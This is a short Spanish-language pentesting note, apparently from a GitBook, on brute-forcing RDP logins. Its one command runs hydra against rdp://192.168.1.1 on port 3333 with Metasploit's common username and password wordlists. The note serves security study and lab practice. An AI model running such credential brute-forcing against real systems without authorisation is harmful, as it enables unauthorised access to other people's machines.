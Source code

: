 # RDP

## Fuerza Bruta

### Hydra

Para hacer fuerza bruta usamos hydra de la siguiente forma:

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://192.168.1.1 -s 3333
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
